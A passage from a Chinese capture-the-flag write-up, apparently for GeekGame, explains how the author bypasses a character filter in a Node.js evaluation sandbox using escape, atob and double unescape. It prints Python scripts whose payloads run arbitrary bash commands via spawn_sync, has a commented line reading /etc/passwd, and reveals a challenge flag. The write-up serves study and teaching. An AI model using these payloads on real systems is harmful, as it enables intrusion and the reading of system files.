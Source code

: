 这里可以拿到循环的最后一个元素。

然后我把重点放在了将正则表达式放进 `btoa` 和 `atob` 里面来回折腾上面，在这里花了很多时间，写了很多脚本来穷举各种各样的情况，看能不能构造出来本来无法构造的字符，尤其是大写字母，全部都失败了，就去睡觉了。

第二天，我想起来，还有 `unescape` 可以用啊，只要能构造出来 `%` 就行。我仍然没有意识到 `%` 其实是允许的字符。但是通过 base64 能搞出来 `%` 吗？试了半天，还是没搞出来。然后我就想，我可以先用 `escape` 得到包含 `%` 的字符串，然后把它取出来，但是怎么取呢？for 循环只能取出来最后一个元素呀，但是 `%` 一定不是最后一个。

又过了好久，我突然意识到，其实 for 循环的过程中每个元素都会被处理一遍，虽然终端上只显示了最后一个，但其实每一个都可以被我拿到，这样只要有一个成功就行了，不过还有错误处理的问题。对于 `%` 的情况，我只需要拿到 `escape` 之后的字符串里面的第一个字符，后面报错无所谓，反正该执行的已经执行了。那 `escape` 什么字符串才能得到 `%` 呢？我试了一下，用 `escape` 处理字母和数字只能得到原样的输出，这时我突然想到了之前尝试 `atob` 时得到的各种乱码字符，那些字符 `escape` 之后肯定会有 `%`。还有一个问题，一条命令编码成可以 `unescape` 的格式之后，除了数字和百分号还有 a 到 f 的字母，这个怎么办？两层 `unescape` 就可以解决，因为这段字母对应 0x61 ~ 0x66（大写是 0x41 ~ 0x46），都是纯数字。

于是我就成功构造出来了一个不包含百分号的 payload：

```python
import requests
def submit(mode, expr):
    return requests.post('https://prob09-vfdo4i6d.geekgame.pku.edu.cn/submit', json={'mode':mode, 'expr':expr}).json()
expr = """console.log(JSON.stringify(1+1)) ;process.exit()"""
enc = lambda s:''.join([f'%{hex(ord(i))[2:].upper()}' for i in s])
expr = 'for(const p of escape(atob(11))) eval(unescape(unescape(' + enc(enc(expr)).replace('%', '+p+')[1:] + ')))'
print(submit('node', expr))
```

下一步就是任意命令执行了，我直接抄来了去年 GeekGame 的 [payload](https://github.com/PKU-GeekGame/geekgame-1st/blob/master/writeups/players/%E6%AC%A2%E8%BF%8E%E5%8F%82%E5%8A%A0%E6%98%8E%E5%B9%B4%E5%8D%81%E6%9C%88%E4%BB%BD%E4%B8%AD%E7%A7%91%E5%A4%A7%E7%AC%AC%E4%B9%9D%E5%B1%8A%E4%BF%A1%E5%AE%89%E5%A4%A7%E8%B5%9B/README.md?plain=1#L546)，不过这次我们并不能看到 stdout 和 stderr，需要管道一下。

最终 payload：

```python
import requests
def submit(mode, expr):
    return requests.post('https://prob09-vfdo4i6d.geekgame.pku.edu.cn/submit', json={'mode':mode, 'expr':expr}).json()
cmd = 'ls'
expr = """console.log(JSON.stringify(process.binding('spawn_sync').spawn({file:'bash',args:['bash','-c', '"""+cmd+"""'],stdio:[{type:'pipe',readable:true,writable:false},{type:'pipe',readable:true,writable:true},{type:'pipe',readable:true,writable:true}]}))) ;process.exit()"""
#expr = 'constructor.constructor(\'import "fs"\')();console.log(fs.readFileSync("/etc/passwd"));process.exit()'
enc = lambda s:''.join([f'%{hex(ord(i))[2:].upper()}' for i in s])
expr = 'for(const p of escape(atob(11))) eval(unescape(unescape(' + enc(enc(expr)).replace('%', '+p+')[1:] + ')))'
s = submit('node', expr)
print(bytes(s['result']['output'][1]['data']).decode())
```

能任意命令执行了，就能获得第三问和第二问的 flag 了。

原来第二问的代码长这样：

```javascript
const flag = (() => {
    const FLAG = `flag{reg3x_byp4ss_made_easy}`
    return 'no geek, no flag'
})()
```

